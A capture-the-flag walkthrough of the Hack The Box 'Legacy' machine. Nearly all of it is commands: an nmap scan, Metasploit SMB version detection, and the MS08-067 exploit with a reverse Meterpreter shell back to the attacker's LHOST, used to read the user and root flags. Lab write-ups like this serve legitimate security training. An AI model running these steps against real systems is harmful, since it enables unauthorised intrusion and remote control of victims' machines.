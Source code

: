 # Hack The Box - Legacy

```sh
export IP=10.10.10.4
```

```sh
sudo nmap -A -T4 -p- -oN nmap-initial $IP
```
![nmap-initial](screenshots/nmap-initial.png)

Start metasploit
```sh
msfconsole
```

```
search msb_version
```
![msf-smb_version](screenshots/mfs-smb_version.png)

```
use auxiliary/scanner/smb/smb_version
```

```
set rhosts 10.10.10.4
```

```
run 
```
![msf-smb_version_result](screenshots/mfs-smb_version_res.png)

```
use exploit/windows/smb/ms08_067_netapi
```

Set RHOSTS
```
set rhosts 10.10.10.4
```
Check your ip addr tun0
Set LHOST
```
set lhost 10.10.14.3
```

```
exploit
```

In meterpreter shell
```
getuid
```
```
sysinfo
```
![meterpreter-info](screenshots/meterpreter-info.png)

```
cd ../../"documents and settings"
```
```
dir
```
![meterpreter-doc_set](screenshots/meterpreter-doc_set.png)
```
cd john/Desktop
```

```
cat user.txt
```
![user-flag](screenshots/user-flag.png)

```
cd ../../Administrator/Desktop
```

```
cat root.txt
```
![root-flag](screenshots/root-flag.png)
